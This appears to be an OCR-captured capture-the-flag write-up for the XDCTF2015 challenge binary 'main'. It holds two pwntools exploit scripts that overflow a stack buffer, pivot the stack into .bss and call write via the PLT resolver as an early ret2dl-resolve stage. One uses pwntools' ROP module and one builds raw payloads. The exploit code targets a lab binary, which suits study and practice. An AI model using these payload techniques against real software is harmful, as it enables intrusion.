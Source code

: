 ```python
from pwn import *
elf = ELF('main')
r = process('./main')
rop = ROP('./main')

offset = 112
bss_addr = elf.bss()

r.recvuntil('Welcome to XDCTF2015~!\n')

# stack privot to bss segment
# new stack size is 0x800
stack_size = 0x800
base_stage = bss_addr + stack_size
## padding
rop.raw('a' * offset)
## read 100 byte to base_stage
rop.read(0, base_stage, 100)
## stack privot, set esp = base_stage
rop.migrate(base_stage)
r.sendline(rop.chain())

# write sh="/bin/sh"
rop = ROP('./main')
sh = "/bin/sh"

plt0 = elf.get_section_by_name('.plt').header.sh_addr
write_index = (elf.plt['write'] - plt0) / 16 - 1
write_index *= 8        #得到push参数write@plt
rop.raw(plt0)       #先调用plt，栈中是已布置好的参数
rop.raw(write_index)
# fake ret addr of write
rop.raw('bbbb')
rop.raw(1)
rop.raw(base_stage + 80)
rop.raw(len(sh))
rop.raw('a' * (80 - len(rop.chain())))
rop.raw(sh)
rop.raw('a' * (100 - len(rop.chain())))

r.sendline(rop.chain())
r.interactive()
```

非ROP模块版：

```python
...
cmd = "/bin/sh"
plt_0 = 0x08048380 # objdump -d -j .plt main
index_offset = 0x20 # write's index

payload2 = 'AAAA'
payload2 += p32(plt_0)
payload2 += p32(index_offset)
payload2 += 'AAAA'
payload2 += p32(1)
payload2 += p32(base_stage + 80)
payload2 += p32(len(cmd))
payload2 += 'A' * (80 - len(payload2))
payload2 += cmd + '\x00'
payload2 += 'A' * (100 - len(payload2))
r.sendline(payload2)
r.interactive()
```